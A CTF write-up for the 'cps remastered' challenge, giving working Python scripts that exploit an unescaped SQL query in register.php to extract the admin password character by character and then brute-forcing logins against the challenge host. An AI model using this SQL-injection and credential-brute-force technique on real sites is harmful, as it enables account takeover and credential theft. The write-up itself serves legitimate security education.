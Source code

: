 # cps remastered

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/99d601dd-3e2d-4616-a727-452e7f2daa03)

creator: voxal

## solution

one thing that was annoying about this challenge was setting up a local copy of the php server, which took way longer than it should've

if we take a look at register.php, we can see that the SQL command is not being escaped correctly using `bind_param` like it is everywhere else, so we can do SQL injection

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a7bd86e4-48dc-40b1-9c1a-d3e68b704075)

share.py
```py
ip = "https://cps.amt.rs/"
```

create.py
```py
import requests
from share import *
from _thread import start_new_thread
from time import sleep


def register(_2, uname, psswd):
    userdata = {"username": uname, "password": psswd}
    requests.post(ip + "register.php", data=userdata)
    print(_2+1, "created")


for _ in range(100):
    sleep(0.2)
    pl = f"jonas{_+1}', HEX(SUBSTR((SELECT password FROM (SELECT * FROM users)tmpp WHERE username LIKE 'admin'), {_+1}, 1))); -- q"
    start_new_thread(register, (_, pl, "a"))
sleep(100)
```

here, we create an account called `jonas<number>` for each character the password of the admin, and the password to the jonas account is hex encoded of the character, so `a` -> `61`

now, we can try to login as each account 256 times with the hex code for the character as the password

crack.py
```py
import requests
from _thread import start_new_thread
from share import *
from time import sleep


def login(uname, psswd):
    userdata = {"username": uname, "password": psswd}
    if "You are now logged in" in requests.post(ip + "login.php", data=userdata).text:
        if psswd == "":
            print(uname, "empty password btw <<<<<<")
        else:
            print()
            print(uname, chr(int(psswd, 16)), "GOOD <<<<<<")
            print()
    else:
        # print(uname, psswd, "fail")
        pass


index = 1
while True:
    charset = "abcdef0123456789"
    for char in charset:
        for char2 in charset:
            start_new_thread(login, (f"jonas{index}", char + char2))
            sleep(0.03)
    sleep(3)
    index += 1
```

then, we get the flag char by char
